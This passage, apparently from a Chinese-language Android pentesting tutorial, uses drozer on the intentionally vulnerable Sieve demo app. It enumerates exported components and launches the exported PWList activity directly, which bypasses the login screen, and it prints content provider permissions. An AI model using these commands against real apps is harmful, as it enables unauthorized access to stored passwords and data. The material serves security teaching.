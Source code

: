 ```c
  - com.mwr.example.sieve.READ_KEYS
  - com.mwr.example.sieve.WRITE_KEYS
```

#### 确认攻击面

`app.package.attacksurface`可以确认一下包有哪些是exported的

```c
dz> run app.package.attacksurface com.mwr.example.sieve
Attack Surface:
  3 activities exported
  0 broadcast receivers exported
  2 content providers exported
  2 services exported
    is debuggable    // 说明这个apk AndroidManifest.xml 中的 android:debuggable 为true
```

如上，可看出这个app可调试，暴露出来了3个Activity，2个Content，2个Services

### 0x04 利用

可以利用一些命令来确定这些攻击面是否有效

#### Activity
```c
dz> run app.activity.info -a com.mwr.example.sieve    // 查看暴露出来了哪些activity
Package: com.mwr.example.sieve
  com.mwr.example.sieve.FileSelectActivity
    Permission: null
  com.mwr.example.sieve.MainLoginActivity
    Permission: null
  com.mwr.example.sieve.PWList
    Permission: null

// 运行PWList这个activity
dz> run app.activity.start --component com.mwr.example.sieve com.mwr.example.sieve.PWList
```
在运行后，可以看到，绕过了认证，直接来到了之后的页面

#### Content Provider

与Activity类似，使用info命令查看provider的信息：

```c
dz> run app.provider.info -a com.mwr.example.sieve  // 展示出之前“确认攻击面”时发现的两个 content provider
Package: com.mwr.example.sieve
  Authority: com.mwr.example.sieve.DBContentProvider
    Read Permission: null
    Write Permission: null
    Content Provider: com.mwr.example.sieve.DBContentProvider
    Multiprocess Allowed: True
    Grant Uri Permissions: False
    Path Permissions:
      Path: /Keys
        Type: PATTERN_LITERAL
        Read Permission: com.mwr.example.sieve.READ_KEYS
        Write Permission: com.mwr.example.sieve.WRITE_KEYS
  Authority: com.mwr.example.sieve.FileBackupProvider
    Read Permission: null
    Write Permission: null
    Content Provider: com.mwr.example.sieve.FileBackupProvider
    Multiprocess Allowed: True
    Grant Uri Permissions: False
```
